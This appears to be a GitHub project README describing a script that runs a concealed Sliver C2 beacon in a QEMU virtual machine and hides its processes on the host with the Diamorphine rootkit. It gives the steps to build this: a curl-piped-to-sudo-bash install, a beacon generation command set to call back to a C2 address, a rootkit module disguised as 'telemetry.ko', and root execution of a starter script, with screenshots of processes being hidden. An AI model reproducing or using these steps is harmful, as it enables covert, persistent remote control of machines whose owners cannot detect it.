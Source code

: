 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.
Static network configuration with custom MAC address.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

![Image 0](https://i.imgur.com/wGIcRK8.jpeg)

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;


VM in QEMU:

![Image 1](https://i.imgur.com/yxWqAgM.jpeg)

Before rootkit execution:

![Image 2](https://i.imgur.com/uLHbYHd.jpeg)

QEMU processes hidden on a host:

![Image 3](https://i.imgur.com/jD5UP5b.jpeg)

Unhiden:

![Image 4](https://i.imgur.com/dTE7umq.jpeg)


---

Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu
- https://github.com/BishopFox/sliver

